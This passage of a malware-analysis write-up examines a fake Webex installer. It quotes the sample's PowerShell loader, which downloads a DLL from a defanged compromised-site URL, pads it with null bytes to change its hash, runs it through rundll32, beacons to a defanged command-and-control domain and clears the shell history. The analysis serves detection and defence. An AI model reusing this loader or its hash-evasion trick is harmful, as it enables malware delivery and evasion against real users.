 <br>


Before writing the file to disk, it calculates the file size and stores it in a buffer.
It then calculates the sum of the file size, plus the randomly generated number.

This is used to append NULL bytes to the end of the DLL file as a means to randomize the hash value of the downloaded file.
By doing this on the fly, the actor doesn't need to host clever build systems which generate payloads upon request.

Once the file bytes are collated in the same buffer, they are written to a path in `$env:APPDATA`.

Upon first glance it may also appear the name of the file will also be randomly generated.
A review of the script will tell you otherwise, as the variable `$randomname` is never initialized, and so the file is always called `z.dll` 

```powershell
$randomNumber = Get-Random -Minimum 1010000 -Maximum 91198889999
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$webClient = New-Object System.Net.WebClient
$bytes = $webClient.DownloadData("hxxps[:]//associazionedignita[.]it/wp-content/uploads/2023/06/r.dll")
$currentFileSize = $bytes.Count
$sizeToAdd = Get-Random -Minimum 750000000 -Maximum 900000000
$newFileSize = $currentFileSize + $sizeToAdd
$bytesToAdd = New-Object byte[] $sizeToAdd
$newBytes = New-Object byte[] $newFileSize
[System.Array]::Copy($bytes, $newBytes, $bytes.Length)
[System.Array]::Copy($bytesToAdd, 0, $newBytes, $bytes.Length, $bytesToAdd.Length)
[System.IO.File]::WriteAllBytes("$env:APPDATA\z$randomname.dll", $newBytes)
```

<br>

Once the DLL file is written to disk, the `vcab` routine is executed using `rundll32.exe`, along with some additional command line parameters.
Once the execution from `rundll32.exe` completes a web request is issued, presumably indicating an installation (Webex?) has completed.

```powershell
rundll32 $env:APPDATA\z$randomname.dll, vcab /k chokopai723
Invoke-WebRequest -Uri ("hxxps[:]//9sta9rt4[.]store/?status=install") -UseBasicParsing

Clear-History
```


<br>

Curiosity got the better of me, and I wanted to see what the installation looked like.
As the command and control servers are hopefully down and this was executed in an isolated machine, the web requests failed.

As you can see, it looks like a legitimate installation of Webex.

<div align="center" style="border: thin solid black">

[^1]: [https://www.malware-traffic-analysis.net](https://www.malware-traffic-analysis.net)
[^2]: [https://docs.velociraptor.app/](https://docs.velociraptor.app/)
[^3]: [https://learn.microsoft.com/en-us/windows/msix/overview](https://learn.microsoft.com/en-us/windows/msix/overview)
[^4]: [https://learn.microsoft.com/en-us/windows/msix/desktop/desktop-to-uwp-behind-the-scenes#installation](https://learn.microsoft.com/en-us/windows/msix/desktop/desktop-to-uwp-behind-the-scenes#installation)
[^5]: [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/6e3f7352-d11c-4d76-8c39-2516a9df36e8](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/6e3f7352-d11c-4d76-8c39-2516a9df36e8)
[^6]: [https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck)
[^7]: [https://gchq.github.io/CyberChef/#recipe=Parse_X.509_certificate('PEM')](https://gchq.github.io/CyberChef/#recipe=Parse_X.509_certificate('PEM'))
[^8]: [https://learn.microsoft.com/en-us/windows/msix/desktop/flexible-virtualization](https://learn.microsoft.com/en-us/windows/msix/desktop/flexible-virtualization)
[^9]: [https://www.advancedinstaller.com/user-guide/custom-actions-list.html#attached-action](https://www.advancedinstaller.com/user-guide/custom-actions-list.html#attached-action)
[^10]: [https://www.advancedinstaller.com/user-guide/powershell-script-options-dialog.html](https://www.advancedinstaller.com/user-guide/powershell-script-options-dialog.html)
[^11]: [https://www.virustotal.com/gui/file/fea3c21148ede04ce6ab7078937991b14551964457d116eca54c61df4a7e68ce/detection](https://www.virustotal.com/gui/file/fea3c21148ede04ce6ab7078937991b14551964457d116eca54c61df4a7e68ce/detection)
[^12]: [https://learn.microsoft.com/en-us/visualstudio/debugger/specify-symbol-dot-pdb-and-source-files-in-the-visual-studio-debugger?view=vs-2022](https://learn.microsoft.com/en-us/visualstudio/debugger/specify-symbol-dot-pdb-and-source-files-in-the-visual-studio-debugger?view=vs-2022)
[^13]: [https://censys.io](https://search.censys.io/hosts/77.111.240.213?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=EXCLUDE&q=associazionedignita.it&at_time=2023-12-18T12%3A36%3A21.779Z)